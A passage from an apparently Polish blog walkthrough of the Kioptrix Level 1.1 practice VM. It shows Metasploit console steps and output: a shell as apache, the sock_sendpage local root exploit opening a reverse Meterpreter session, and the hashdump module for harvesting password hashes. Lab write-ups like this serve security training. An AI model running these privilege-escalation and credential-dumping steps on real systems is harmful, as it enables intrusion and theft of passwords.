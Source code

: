 i na konsoli Metasploita powinniśmy mieć dostęp do Shella. Trzeba tylko wpisać nr sesji. Np. **session 3**
{: .text-justify}
```bash
# bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
# bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
```

Brak **root**a, wyjdzmy z Shella ```background``` i poszukajmy exploita. Serwer jest dosyć stary, więc powina być podatność na 
exploit o nazwie **sendpage**.
{: .text-justify}

W konsoli msf:
{: .text-justify}

```console
msf6 exploit(linux/local/sock_sendpage) > use exploit/linux/local/sock_sendpage
msf6 exploit(linux/local/sock_sendpage) > set session 3
session => 3
msf6 exploit(linux/local/sock_sendpage) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 172.16.1.10:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Writing '/tmp/.QQefgmLa' (3509 bytes) ...
[*] Executing payload...
[*] Sending stage (980808 bytes) to 172.16.1.238
[*] Meterpreter session 5 opened (172.16.1.10:4444 -> 172.16.1.238:32803) at 2021-06-05 23:16:03 +0200

meterpreter > getuid
Server username: root @ kioptrix.level2 (uid=0, gid=0, euid=0, egid=0)
meterpreter >
```
Mamy roota. Na zakończenie możemy sobie ściągnąć hasła
{: .text-justify}

```
background
use post/linux/gather/hashdump
set session 5
run
```

I to byłoby na tyle. To był mój pierwszy opis, jak zdobyć **root**a na** Kioptrix: Level 1.1**. Jeżeli masz jakieś sugestie, znalazłeś błędy, to śmiało pisz tu komentarz, lub wyślij mejla na kerszi@protonmail.com 
{: .text-justify}
{: .notice--success}


